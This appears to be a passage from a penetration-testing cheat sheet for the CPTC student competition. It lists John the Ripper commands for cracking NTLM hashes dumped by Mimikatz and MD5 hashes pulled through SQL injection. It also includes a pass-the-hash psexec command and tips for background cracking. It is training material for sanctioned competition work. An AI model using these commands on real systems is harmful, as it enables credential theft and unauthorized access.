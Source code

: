 
### John + Mimikatz (NTLM Hashes)

```bash
# 1. Mimikatz dumps hash
# NTLM: 8846f7eaee8fb117ad06bdd830b7586c

# 2. Crack with John
echo "user:8846f7eaee8fb117ad06bdd830b7586c" > hash.txt
john --format=NT --wordlist=rockyou.txt hash.txt

# 3. Use cracked password
# Or just use the hash (Pass-the-Hash)
impacket-psexec -hashes ':8846f7eaee8fb117ad06bdd830b7586c' 'user@TARGET'
```

---

### John + Web App SQLi (Database Hashes)

```bash
# 1. SQLi extracts hashes from database
# SELECT username, password FROM users;
# admin:5f4dcc3b5aa765d61d8327deb882cf99

# 2. Identify hash type
hashid 5f4dcc3b5aa765d61d8327deb882cf99
# MD5

# 3. Crack
echo "5f4dcc3b5aa765d61d8327deb882cf99" > web-hashes.txt
john --format=raw-md5 --wordlist=rockyou.txt web-hashes.txt

# 4. Login to web app with cracked password
```

---

## Final Tips for CPTC

**Speed Optimization:**
1. Try fast wordlist first (10K passwords) - 30 seconds
2. If fails, try rockyou.txt - 5 minutes max
3. If still failing, move on (don't waste time)

**Background Cracking:**
```bash
# Start crack, background it
john --wordlist=rockyou.txt hashes.txt > /tmp/john.log 2>&1 &

# Continue other attacks
# Check periodically:
john --show hashes.txt
```
